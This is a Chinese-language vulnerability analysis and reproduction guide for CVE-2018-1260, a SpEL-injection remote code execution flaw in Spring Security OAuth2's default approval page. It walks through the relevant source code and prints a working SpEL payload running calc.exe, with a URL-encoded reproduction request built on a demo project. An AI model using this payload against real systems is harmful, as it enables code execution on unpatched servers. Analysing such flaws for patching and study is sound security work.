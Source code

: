 （CVE-2018-1260）Spring Security Oauth2 远程代码执行
====================================================

一、漏洞简介
------------

二、漏洞影响
------------

Spring Security OAuth 2.3 to 2.3.2Spring Security OAuth 2.2 to 2.2.1Spring Security OAuth 2.1 to 2.1.1Spring Security OAuth 2.0 to 2.0.14

三、复现过程
------------

### 漏洞分析

先简要补充一下关于OAuth2.0的相关知识。![1.png](./resource/(CVE-2018-1260)SpringSecurityOauth2远程代码执行/media/rId25.png)以上图为例。当用户使用客户端时，客户端要求授权，即图中的AB。接着客户端通过在B中获得的授权向认证服务器申请令牌，即access
token。最后在EF阶段，客户端带着access token向资源服务器请求并获得资源。

在获得access
token之前，客户端需要获得用户的授权。根据标准，有四种授权方式：授权码模式（authorization
code）、简化模式（implicit）、密码模式（resource owner password
credentials）、客户端模式（client
credentials）。在这几种模式中，当客户端将用户导向认证服务器时，都可以带上一个可选的参数`scope`，这个参数用于表示客户端申请的权限的范围。

，根据[官方文档](http://projects.spring.io/spring-security-oauth/docs/oauth2.html)，在spring-security-oauth的默认配置中scope参数默认为空：

    scope: The scope to which the client is limited. If scope is undefined or empty (the default) the client is not limited by scope.

为明白起见，我们在demo中将其清楚写出：

    clients.inMemory()
            .withClient("client")
            .authorizedGrantTypes("authorization_code")
            .scopes();

接着开始正式分析。当我们访问`http://localhost:8080/oauth/authorize`重定向至`http://localhost:8080/login`并完成login后程序流程到达org/springframework/security/oauth2/provider/endpoint/AuthorizationEndpoint.java，这里贴上部分代码：

    @RequestMapping(value = "/oauth/authorize")
    public ModelAndView authorize(Map<String, Object> model, @RequestParam Map<String, String> parameters,
            SessionStatus sessionStatus, Principal principal) {

        // Pull out the authorization request first, using the OAuth2RequestFactory. All further logic should
        // query off of the authorization request instead of referring back to the parameters map. The contents of the
        // parameters map will be stored without change in the AuthorizationRequest object once it is created.
        AuthorizationRequest authorizationRequest = getOAuth2RequestFactory().createAuthorizationRequest(parameters);

        try {
            ...
            // We intentionally only validate the parameters requested by the client (ignoring any data that may have
            // been added to the request by the manager).
            oauth2RequestValidator.validateScope(authorizationRequest, client);
            ...

            // Place auth request into the model so that it is stored in the session
            // for approveOrDeny to use. That way we make sure that auth request comes from the session,
            // so any auth request parameters passed to approveOrDeny will be ignored and retrieved from the session.
            model.put("authorizationRequest", authorizationRequest);

            return getUserApprovalPageResponse(model, authorizationRequest, (Authentication) principal);

        }
        ...

第115行![2.png](./resource/(CVE-2018-1260)SpringSecurityOauth2远程代码执行/media/rId27.png)在执行完`AuthorizationRequest authorizationRequest = ...`后，`authorizationRequest`代表了要认证的请求，其中包含了众多参数![3.png](./resource/(CVE-2018-1260)SpringSecurityOauth2远程代码执行/media/rId28.png)

在经过了对一些参数的处理，比如RedirectUri等，之后到达第156行：

    // We intentionally only validate the parameters requested by the client (ignoring any data that may have
    // been added to the request by the manager).
    oauth2RequestValidator.validateScope(authorizationRequest, client);

在这里将对`scope`参数进行验证。跟入`validateScope`到org/springframework/security/oauth2/provider/request/DefaultOAuth2RequestValidator.java:19

    public class DefaultOAuth2RequestValidator implements OAuth2RequestValidator {

        public void validateScope(AuthorizationRequest authorizationRequest, ClientDetails client) throws InvalidScopeException {
            validateScope(authorizationRequest.getScope(), client.getScope());
        }
        ...
    }

继续跟入`validateScope`，至
org/springframework/security/oauth2/provider/request/DefaultOAuth2RequestValidator.java:28

    private void validateScope(Set<String> requestScopes, Set<String> clientScopes) {

        if (clientScopes != null && !clientScopes.isEmpty()) {
            for (String scope : requestScopes) {
                if (!clientScopes.contains(scope)) {
                    throw new InvalidScopeException("Invalid scope: " + scope, clientScopes);
                }
            }
        }
        
        if (requestScopes.isEmpty()) {
            throw new InvalidScopeException("Empty scope (either the client or the user is not allowed the requested scopes)");
        }
    }

首先检查`clientScopes`，这个`clientScopes`即我们在前面configure中配置的`.scopes();`，倘若不为空，则进行白名单检查。举个例子，如果前面配置`.scopes("chybeta");`，则传入`requestScopes`必须为`chybeta`，否则会直接抛出异常`Invalid scope:xxx`。但由于此处查`clientScopes`为空值，则接下来仅仅做了`requestScopes.isEmpty()`的检查并且通过。

在完成了各项检查和配置后，在`authorize`函数的最后执行：

    return getUserApprovalPageResponse(model, authorizationRequest, (Authentication) principal);

回想一下前面OAuth2.0的流程，在客户端请求授权（A），用户登陆认证（B）后，将会进行用户授权（C），这里即开始进行正式的授权阶段。跟入`getUserApprovalPageResponse`
至org/springframework/security/oauth2/provider/endpoint/AuthorizationEndpoint.java:241：![4.png](./resource/(CVE-2018-1260)SpringSecurityOauth2远程代码执行/media/rId29.png)

生成对应的model和view，之后将会forward到/oauth/confirm\_access。为简单起见，我省略中间过程，直接定位到org/springframework/security/oauth2/provider/endpoint/WhitelabelApprovalEndpoint.java:20

public class WhitelabelApprovalEndpoint {\@RequestMapping(\"/oauth/confirm\_access\")public ModelAndView getAccessConfirmation(Map\<String, Object\> model,
HttpServletRequest request) throws Exception {String template = createTemplate(model, request);if (request.getAttribute(\"\_csrf\") != null) {model.put(\"\_csrf\", request.getAttribute(\"\_csrf\"));}return new ModelAndView(new SpelView(template), model);}\...}跟入createTemplate，第29行：

protected String createTemplate(Map\<String, Object\> model,
HttpServletRequest request) {String template = TEMPLATE;if (model.containsKey(\"scopes\") \|\| request.getAttribute(\"scopes\")
!= null) {template = template.replace(\"%scopes%\", createScopes(model,
request)).replace(\"%denial%\", \"\");}\...return template;}跟入createScopes，第46行：![5.png](./resource/(CVE-2018-1260)SpringSecurityOauth2远程代码执行/media/rId30.png)

这里获取到了`scopes`，并且通过for循环生成对应的`builder`，其实就是html和一些标签等，最后返回的即`builder.toString()`,其值如下:

    <ul><li><div>scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}: <input type='radio' name='scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}' value='true'>Approve</input> <input type='radio' name='scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}' value='false' checked>Deny</input></div></li></ul>

`createScopes`结束后将会把上述`builder.toString()`拼接到`template`中。`createTemplate`结束后，在`getAccessConfirmation`的最后：

    return new ModelAndView(new SpelView(template), model);

根据`template`生成对应的`SpelView`对象，这是其构造函数：![6.png](./resource/(CVE-2018-1260)SpringSecurityOauth2远程代码执行/media/rId31.png)此后在页面渲染的过程中，将会执行页面中的Spel表达式`${T(java.lang.Runtime).getRuntime().exec("calc.exe")}`从而造成代码执行。

![7.png](./resource/(CVE-2018-1260)SpringSecurityOauth2远程代码执行/media/rId32.png)

所以综上所述，这个任意代码执行的利用条件实在"苛刻"：

1.  需要`scopes`没有配置白名单，否则直接`Invalid scope:xxx`。不过大部分OAuth都会限制授权的范围，即指定scopes。
2.  使用了默认的Approval
    Endpoint，生成对应的template，在spelview中注入spel表达式。不过可能绝大部分使用者都会重写这部分来满足自己的需求，从而导致spel注入不成功。

### 漏洞复现

利用github上已有的demo：

    git clone https://github.com/wanghongfei/spring-security-oauth2-example.git

确保导入的spring-security-oauth2为受影响版本，以这里为例为2.0.10进入spring-security-oauth2-example，修改
cn/com/sina/alan/oauth/config/OAuthSecurityConfig.java的第67行:

    @Override
    public void configure(ClientDetailsServiceConfigurer clients) throws Exception {
       clients.inMemory()
                .withClient("client")
                .authorizedGrantTypes("authorization_code")
                .scopes();
    }

根据[spring-security-oauth2-example](https://github.com/wanghongfei/spring-security-oauth2-example.git)创建对应的数据库等并修改AlanOAuthApplication中对应的mysql相关配置信息。

访问：

    http://www.0-sec.org:8080/oauth/authorize?client_id=client&response_type=code&redirect_uri=http://www.github.com/chybeta&scope=%24%7BT%28java.lang.Runtime%29.getRuntime%28%29.exec%28%22calc.exe%22%29%7D

会重定向到login页面，随意输入username和password，点击login，触发payload。![3.gif](./resource/(CVE-2018-1260)SpringSecurityOauth2远程代码执行/media/rId35.gif)

